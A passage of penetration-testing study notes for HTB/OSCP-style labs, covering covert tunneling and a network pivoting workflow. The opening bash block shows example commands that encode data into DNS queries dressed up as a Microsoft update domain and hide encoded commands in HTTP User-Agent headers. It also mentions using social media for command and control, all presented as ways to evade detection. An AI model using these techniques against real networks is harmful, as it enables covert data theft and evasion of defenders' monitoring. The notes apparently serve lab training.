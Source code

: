 ```bash
# Make tunnel traffic look like legitimate protocols

# DNS query mimicry
# Embed data in DNS queries that look legitimate
dig $(echo "secret" | base64).update.microsoft.com

# HTTP mimicry
# Hide commands in HTTP User-Agent strings
curl -H "User-Agent: Mozilla/5.0 ($(echo 'whoami' | base64))" http://target.com

# Social media covert channels
# Use legitimate social platforms for C&C
# Twitter, Facebook, Instagram posts with encoded commands

# Why steganographic tunneling is advanced evasion:
# - Hides in plain sight within legitimate traffic
# - Extremely difficult to detect without specific analysis
# - Can leverage any protocol or data format
# - Bypasses signature-based detection systems
# - Provides plausible deniability
```

## Network Pivoting Methodology Summary

### **HTB/OSCP Network Pivoting Workflow**

**Systematic approach for network traversal:**

1. **Network Reconnaissance Phase**
   - Map current network position and interfaces
   - Identify accessible network segments
   - Discover internal hosts and services
   - Analyze trust relationships and routing

2. **Pivot Point Establishment**
   - Select optimal pivot hosts based on network access
   - Establish primary and backup pivot connections
   - Configure tunneling protocols (SSH, Chisel, etc.)
   - Test pivot connectivity and performance

3. **Tunnel Configuration**
   - Set up SOCKS proxies for tool integration
   - Configure port forwarding for specific services
   - Establish encrypted tunnels for sensitive operations
   - Implement redundancy and failover mechanisms

4. **Internal Network Enumeration**
   - Scan through established pivot points
   - Identify high-value targets and services
   - Map internal network topology
   - Discover additional pivot opportunities
